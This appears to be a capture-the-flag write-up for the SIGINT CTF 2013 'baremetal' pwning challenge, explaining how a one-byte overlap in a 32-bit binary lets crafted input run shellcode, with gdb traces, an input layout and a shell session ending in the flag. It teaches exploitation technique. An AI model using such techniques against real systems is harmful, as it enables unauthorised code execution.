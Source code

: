 SIGINT CTF 2013 pwning 100 - baremetal
---

Exploit code: [sploit.py] [1]
Shellcode: [sc.s] [2]

The shellcode must be linked with the base address of the text segment at `0x80491c8`.
This is accomplished by using the linker script: [sc.lds] [3]

### The Specimen:

```
$ file baremetal
baremetal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped
```

### Analysis

The binary is small, and looks like it was written in assembly.

Here is a summary of the binary's execution:
* Writes the string "baremetal online\n" to stdout.
* Reads up to 61 bytes from stdin into a buffer in the .bss section.
* Performs the "sum test." The sum of the bytes is calculated up to the first null byte.
** If the sum is 0x1ee7, the string "Sequence OK" is printed on stdout.
** If the sum is not 0x1ee7, the string "Bad Sequence" is printed on stdout.
* Exit.

Both the buffer and the return address are _not_ stored on the stack.

### The Vulnerability

Before the input is read in, the value `0xe7ff4747` is written to address `0x8049204`.
The input buffer and this 32-bit integer at location `0x8049204` overlap by one byte.
If the sum of the bytes is `0x1ee7`, then a jump is made to `0x8049204`.

This is the state right after the jump to `0x8049204`:
```
0x08049204 in ?? ()
(gdb) x/x $eip
0x8049204:	0xe7ff4747
(gdb) x/4i $eip
=> 0x8049204:	inc    %edi                    ; we can control this byte
   0x8049205:	inc    %edi
   0x8049206:	jmp    *%edi
   0x8049208:	add    %al,(%eax)
(gdb) info registers
eax            0x80491c8	134517192      ; the address of the input buffer
ecx            0x8049204	134517252
edx            0x0	0
ebx            0x47	71
esp            0xbffff820	0xbffff820
ebp            0x0	0x0
esi            0x0	0
edi            0x80480f9	134512889
eip            0x8049204	0x8049204
eflags         0x200206	[ PF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb)
```

### The Exploit

The last byte of a 61-byte input becomes the first byte of the instructions at `0x8049204`.
We need to choose a one-byte instruction that will help transfer execution to somewhere in our buffer.
Because EAX holds the address of the input buffer, the one-byte instruction `xchg %eax, %edi` fit this need.
After the `jmp *%edi` at `0x8049208`, execution will continue one byte into our input buffer.

```
(gdb) x/x $eip
0x8049204:	0xe7ff4797              ; Notice that least significant byte is 0x97.
(gdb) x/3i $eip
=> 0x8049204:	xchg   %eax,%edi
   0x8049205:	inc    %edi
   0x8049206:	jmp    *%edi
(gdb) nexti
0x08049205 in ?? ()
(gdb) nexti
0x08049206 in ?? ()
(gdb) nexti
0x080491c9 in ?? ()                     ; Execution is now inside the input buffer.
(gdb)
```

The input must meet these criteria to execute shellcode contained in the input:
* The length must be 61 bytes long.
* The last byte must be the instruction `xchg %eax, %edi`
* The sum of the bytes before the first null must be 0x1ee7.
* Shellcode starts immediatly after the first byte.

I have chosen an input that looks like this:
```
+------+---------------+--------------+-----------------+---------------+------+
| 0x90 |  shellcode    |    nonce     |   0x00 ...      | "/bin/sh\x00" | 0x97 |
+------+---------------+--------------+-----------------+---------------+------+
```
* The first byte is a nop.  It could be anything that isn't null.  It won't be executed.
* The shellcode can't contain any nulls.
* The nonce section contains bytes that are chosen to ensure the input passes the sum test.
* The last byte is 0x97 or `xchg %eax, %edi`

### Action Shot

```
$ ./sploit.py
baremetal online
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
selinux
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd home
ls
challenge
cd challenge
ls
baremetal
flag
cat flag
SIGINT_are_you_getting_warmed_up?
uname -a
Linux ubuntu 3.8.0-25-generic #37-Ubuntu SMP Thu Jun 6 20:47:30 UTC 2013 i686 i686 i686 GNU/Linux
```

  [1]: https://github.com/wjlandryiii/ctfs/blob/master/sigint2013/baremetal/sploit.py
  [2]: https://github.com/wjlandryiii/ctfs/blob/master/sigint2013/baremetal/sc.s
  [3]: https://github.com/wjlandryiii/ctfs/blob/master/sigint2013/baremetal/sc.lds
